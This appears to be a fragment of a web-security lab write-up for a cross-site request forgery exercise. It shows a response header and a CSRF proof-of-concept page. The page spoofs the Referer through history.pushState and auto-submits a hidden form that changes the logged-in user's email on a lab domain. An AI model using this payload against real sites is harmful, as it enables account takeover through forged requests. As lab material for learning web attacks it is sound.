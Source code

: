 
Response header

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Referrer-Policy: unsafe-url
```

CSRF POC

```html
<html>
  <body>
  <script>history.pushState('', '', '/?0a0300ea03bbc0acc07538ef0049003c.web-security-academy.net')</script>
    <form action="https://0a0300ea03bbc0acc07538ef0049003c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="2&#64;normal&#45;user&#46;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```


